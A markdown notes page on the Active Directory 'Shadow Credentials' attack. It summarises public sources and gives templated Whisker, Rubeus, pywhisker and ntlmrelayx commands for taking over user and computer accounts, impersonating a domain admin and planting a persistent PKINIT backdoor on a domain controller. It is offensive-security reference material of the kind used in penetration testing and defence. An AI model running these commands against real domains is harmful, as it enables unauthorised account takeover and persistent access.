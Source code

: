 #  Shadow Credentials

A summary and explanation of Shadow credentials mostly from the sources: [iredteam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials) [thehacker.recipes](https://www.thehacker.recipes/a-d/movement/kerberos/shadow-credentials). Described by [Elad Shamir](https://medium.com/@elad.shamir) (Service Architect at [SpecterOps](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)) as *a technique allows an attacker to take over an AD user or computer account if the attacker can modify the target object's (user or computer account) attribute `msDS-KeyCredentialLink` and append it with alternate credentials in the form of certificates.- iredteam*.  `msDS-KeyCredentialLink` is an attribute for raw public keys of any Active Directory user and computer objects. When initialisation Kerberos authentication the pre-authenticate check run by the KDC will include a matching private key for the TGT to set if there is a match.

**Requirements**:
- Domain must have Active Directory Certificate Services and Certificate Authority configured.
- Domain must have at least one DC running with Windows Server 2016 that supports PKINIT.

***WARNING*** - [thehacker.recipes](https://www.thehacker.recipes/a-d/movement/kerberos/shadow-credentials): *The `msDS-KeyCredentialLink` feature was introduced with Windows Server 2016. However, this is not to be confused with PKINIT which was already present in Windows 2000. The `msDS-KeyCredentialLink` feature allows to link an X509 certificate to a domain object, that's all.*

1. Create an RSA key pair
2. Create an X509 certificate configured with the public key
3. Create a [KeyCredential](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/de61eb56-b75f-4743-b8af-e9be154b47af) structure featuring the raw public key and add it to the `msDs-KeyCredentialLink` attribute
4. Authenticate using PKINIT and the certificate and private key

From Windows
```powershell
# Enumerate for target account
Whisker.exe list /target:"TARGET_SAMNAME"
# Add target account
Whisker.exe add /target:"TARGET_SAMNAME"
# Manaipulate
Whisker.exe add /target:"TARGET_SAMNAME" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"

# Show msds-keycredentiallink attribute
get-netcomputer $TARGET_SAMNAME
# Ask for TGT with Rubeus
Rubeus.exe asktgt /user:$TARGET_SAMNAME /certificate:"CERT_KEY" /domain:$Domain.$TLD /dc:$DCName.$Domain.$TLD /getcredentials /show /ptt

# Ask for TGS for DA for a coputer account takeover
# As above add a shadow credential for this time a computer 
# Whisker.exe add $newServiceName -> Rubeus.exe asktgt
Rubeus.exe s4u /dc:$DCName.$Domain.$TLD  /ticket:$TICKET== /impersonateuser:$DomainAdminUser@$Domain.$TLD /ptt /self /service:host/$server.$Domain.$TLD /altservice:cifs/$newServiceName.$Domain.$TLD

ls \\$newServiceName.$Domain.$TLD\c$

```

From Linux
```bash
pywhisker.py -d "FQDN_DOMAIN" -u "USER" -p "PASSWORD" --target "TARGET_SAMNAME" --action "list"
# Add action from pywhisker is featured in ntlmrelayx
ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'
```

[thehacker.recipes](https://www.thehacker.recipes/a-d/movement/kerberos/shadow-credentials): *User objects can't edit their own `msDS-KeyCredentialLink` attribute while computer objects can. This means the following scenario could work: [trigger an NTLM authentication](https://www.thehacker.recipes/a-d/movement/mitm-and-coerced-authentications) from DC01, [relay it](https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/broken-reference/README.md) o DC02, make pywhisker edit DC01's attribute to create a Kerberos PKINIT pre-authentication backdoor on it, and have persistent access to DC01 with PKINIT and [pass-the-cache](https://www.thehacker.recipes/a-d/movement/kerberos/ptc). Computer objects can only edit their own `msDS-KeyCredentialLink` attribute if KeyCredential is not set already.*

## References

[SpecterOps - Shadow Credentials Post](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
[iredteam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials)
[thehacker.recipes](https://www.thehacker.recipes/a-d/movement/kerberos/shadow-credentials)
[Elad Shamir](https://medium.com/@elad.shamir)
[KeyCredential](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/de61eb56-b75f-4743-b8af-e9be154b47af) 